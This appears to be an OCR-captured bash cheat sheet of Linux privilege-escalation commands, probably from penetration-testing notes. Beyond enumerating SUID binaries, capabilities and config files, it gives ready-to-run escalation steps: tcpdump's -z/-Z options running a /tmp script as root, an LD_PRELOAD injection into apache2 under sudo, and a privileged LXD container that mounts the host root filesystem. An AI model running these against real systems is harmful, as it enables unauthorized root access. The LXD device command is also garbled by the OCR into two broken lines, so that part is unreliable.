 ```bash 
# Check the OS version
cat /etc/lsb-release	

# Check the installed version of Screen
screen -v	

# View running processes with pspy
./pspy64 -pf -i 1000	

# Find binaries with the SUID bit set
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

# Find binaries with the SETGID bit set
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null	

# find capabilities like SUID manually
/usr/sbin/getcap -r / 2>/dev/null

# Priv esc with tcpdump
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root	

# Check the current user's PATH variable contents
echo $PATH	
getenv

# Add a . to the beginning of the current user's PATH
PATH=.:${PATH}	

#Search for config files
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null	

# View the shared objects required by a binary
ldd /bin/ls	

#Escalate privileges using LD_PRELOAD
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart	

#Check the RUNPATH of a binary
readelf -d payroll | grep PATH	

#Compiled a shared libary
gcc src.c -fPIC -shared -o /development/libshared.so	

# Start the LXD initialization process
lxd init	

# Import a local image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine	

#Start a privileged LXD container
lxc init alpine r00t -c security.privileged=true	

lxc config device add r00t mip a

# Mount the host file system in a container
ydev disk source=/ path=/mnt/root recursive=true	

# Start the container
lxc start r00t	

# Show the NFS export list
showmount -e 10.129.2.12	

```
